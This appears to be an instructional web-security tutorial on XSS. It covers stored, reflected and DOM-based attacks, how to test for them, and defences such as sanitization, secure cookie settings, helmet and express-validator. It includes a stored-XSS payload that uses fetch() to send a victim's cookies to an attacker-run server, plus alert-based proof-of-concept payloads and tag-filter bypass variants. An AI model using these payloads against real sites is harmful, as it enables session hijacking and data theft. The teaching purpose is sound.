


# Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting (XSS) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

We will walk through different types of such attacks: Stored XSS, Reflected XSS, and DOM-Based XSS.

## Stored XSS

A stored XSS vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.



Let’s walk through the example in the image above.

Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

This effect makes Stored XSS attacks some of the most serious XSS attacks.

For example, an attacker could have a victim's session cookie sent to another server. If an attacker hosts their own server at, www.localhost:5000, they can inject code into that comment field in order to “infect” the site and run malicious code whenever someone requests to see the comments. Since comments are saved in a vulnerable site's database, this script is stored, and will be retrieved and run whenever a user accesses the comment section. One example could be, instead of writing a review, the attacker writes the following:

```html
<script>
  fetch(`http://localhost:5000?data=${document.cookie}`);
</script>
```

To store the comment in the vulnerable site's database, the attacker can use [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) to parse the text and format it so it is passed as a query parameter to the backend.

> http://examplevulnerablesite.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

## Reflected XSS

Reflected XSS occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request.

Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script. Take a look at the example below where an attacker tricks a user into clicking a script-injected link, set up to steal that user’s credentials!


## DOM-Based XSS

The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.

For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a DOM-Based XSS attack may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!


## Identifying XSS Vulnerabilities

Let’s look at how we can uncover XSS vulnerabilities in a web application.

As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.

Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```html
<script>
  alert(1);
</script>
```

If a web server is not properly sanitizing user input, this will return a pop-up box similar to the below image.



If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your <script> tags could be removed. There are numerous other ways we can execute code, without ever using a <script> tag. Below are some potential workarounds that could be used by an attacker.

```html


<b onmouseover="alert(1)">click me!</b>

<body onload=alert('test1')>
```

## Sanitization

Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.

However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as <, >, ", =, and potentially dangerous keywords.

Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.

For example, the < character would be converted to the “<” string. The browser will render this string as the “<” character, but it will not interpret it as actual HTML, preventing the attack.

It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.

There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!

## Securing Cookies and Headers

### Securing Cookies

An express server that uses express-session to store cookies has the properties httpOnly and secure to configure how to store and send cookies. Setting httpOnly and secure to true helps mitigate the risk of client-side script accessing the protected cookie.

In order to set up a cookie in an Express server, you can use the library express-session to set up a session and configure the application with specific properties pertaining to cookies:

```JavaScript
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);
```

### Setting Security Headers

Moreover, we can include the helmet package to edit HTTP headers. Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. One of them being the contentSecurityPolicy which is an added layer of security that helps to detect and mitigate certain types of attacks. Fortunately, by just including this package in your express app, 11 of these modules (including the content security policy module) will be configured automatically.

You can use helmet by adding the following line of code:

```JavaScript
app.use(helmet());
```

## Data Validation and Sanitization

In the Reflected and Stored XSS Attacks, we saw how an attacker can inject malicious code into the server and/or database using a form. This is why it’s important to validate and/or sanitize data before it’s submitted to the server.

When we validate data we ensure that the user is not submitting information that doesn’t fit a certain format. Moreover, we can use sanitization in order to reformat data so no malicious code is sent.

In other words, validation checks if the input meets a set of criteria (such as a string contains no standalone single quotation marks), whereas sanitization modifies the input to ensure that it is valid (such as removing single quotes).

There are many packages that help validate user data, and one common package is express-validator. It’s built off of the validator package, and it is recommended for use in express applications. With express-validator, we can verify if a string matches a certain format by importing certain functions such as check:

```Javascript
const { check } = require("express-validator");
```

Once the function is imported, it can be used as a middleware within our endpoints, to validate any input that’s submitted within objects attached to req (such as data sent in a form through req.body):

```Javascript
app.post("/login", [
  check('email').isEmail(),
  check("password").isLength({ min: 5 }),
], (req, res) => {});
```

In the example above, the email field is sent through a login form and retrieved from req.body. Notice how we’re using an array since we can pass in multiple check‘s for input data.

If the input data is valid, then the rest of the request will be executed and we know that the data passed in is safe and properly formatted.
